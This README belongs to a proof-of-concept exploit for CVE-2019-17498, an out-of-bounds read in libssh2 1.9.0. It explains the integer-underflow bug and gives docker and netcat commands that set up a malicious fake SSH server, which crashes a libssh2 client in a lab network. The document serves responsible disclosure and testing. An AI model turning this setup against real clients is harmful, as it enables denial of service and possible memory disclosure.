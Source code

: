 # Out-of-bounds read in libssh2 (CVE-2019-17498)

[libssh2](https://www.libssh2.org/) version 1.9.0 contains a remotely triggerable out-of-bounds read, leading to denial of service or potentially to information disclosure. I reported this bug to libssh2-security@haxx.se on 2019-07-01. At the time of writing (2019-10-11), it has been [fixed on the master branch](https://github.com/libssh2/libssh2/pull/402/commits/1c6fa92b77e34d089493fe6d3e2c6c8775858b94), but a new official version containing a fix has not yet been released.

This directory contains a proof of concept exploit for the vulnerability. It uses [docker](https://www.docker.com/) to simulate two computers. The first is a server, with a simple [netcat](https://linux.die.net/man/1/nc) command listening on port 22. The second is a client, running `libssh2`. When the client attempts to connect to server, the server sends back a malicious response which triggers a segmentation fault in the client.

The source location of the vulnerability is [packet.c:480](https://github.com/libssh2/libssh2/blob/42d37aa63129a1b2644bf6495198923534322d64/src/packet.c#L480):

```c
if(message_len < datalen-13) {
```

The value of `datalen` is untrusted because it came from the remote computer. If `datalen == 11`, for example, then the subtraction will overflow and the bounds-check of `message_len` is ineffective, leading to an out-of-bounds read on [line 485](https://github.com/libssh2/libssh2/blob/42d37aa63129a1b2644bf6495198923534322d64/src/packet.c#L485).

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```bash
docker network create -d bridge --subnet 172.18.0.0/16 libssh2-demo-network
```

## Server setup

Build the docker image:

```bash
docker build server -t libssh2-server --build-arg UID=`id -u`
```

Start the container:

```bash
docker run --rm --network libssh2-demo-network --ip=172.18.0.10 -i -t libssh2-server
```

Start the malicious "ssh server":

```bash
sudo nc -l -p 22 < poc.bin  # password is x
```

## Client setup

Build the docker image:

```bash
docker build client -t libssh2-client --build-arg UID=`id -u`
```

Start the container:

```bash
docker run --rm --network libssh2-demo-network --ip=172.18.0.11 -i -t libssh2-client
```

If you want to be able to debug libssh2 with gdb, then you need to start the container with a few extra arguments:

```bash
docker run --rm --network libssh2-demo-network --ip=172.18.0.11 --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -i -t libssh2-client
```

In the container, attempt to connect to the server:

```bash
cd ~/libssh2/example
./ssh2 172.18.0.10
```

This command crashes with a segmentation fault.

If you would like to debug libssh2 with [gdb](https://www.gnu.org/software/gdb/), then start it like this:

```bash
cd ~/libssh2/example/.libs
LD_LIBRARY_PATH="/home/victim/libssh2/src/.libs:$LD_LIBRARY_PATH" gdb --args ./ssh2 172.18.0.10
```
